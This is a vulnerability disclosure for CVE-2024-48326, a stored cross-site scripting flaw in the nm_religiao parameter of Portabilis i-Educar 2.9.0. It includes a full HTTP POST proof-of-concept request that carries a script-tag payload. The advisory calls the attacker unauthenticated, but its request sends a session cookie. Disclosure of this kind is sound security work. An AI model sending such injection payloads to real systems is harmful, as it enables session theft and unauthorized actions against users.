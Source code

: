 # CVE-2024-48326

> **Description:** Portabilis i-Educar v2.9.0 is vulnerable to Cross-Site Scripting (XSS) via the `nm_religiao` parameter in `/intranet/educar_religiao_lst.php?busca=S&nm_religiao=`. This allows an unauthenticated remote attacker to inject malicious JavaScript, which will execute when the data is viewed, potentially leading to unauthorized actions or data leakage.

> **Versions:** Discovered in Portabilis i-Educar 2.9.0.

## Proof of Concept

### Vulnerability Details

The issue occurs in the `nm_religiao` parameter of the `educar_religiao_lst.php` file, allowing unsanitized user input to be stored and subsequently executed as JavaScript on page load.

#### Affected Component:
The `nm_religiao` parameter in `/intranet/educar_religiao_lst.php?busca=S&nm_religiao=` does not properly sanitize user input, allowing stored XSS. When an attacker injects JavaScript, it executes whenever the data is accessed.

#### Example of Manipulation:
```http
POST /intranet/educar_religiao_cad.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/intranet/educar_religiao_cad.php
Cookie: i_educar_session=1eqkHtEgzh7xrusxYcQ3AkZeRRjRMJlhTtib1n8J
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

tipoacao=Novo&cod_religiao=&nm_religiao=<script>alert("CVE")</script>
```
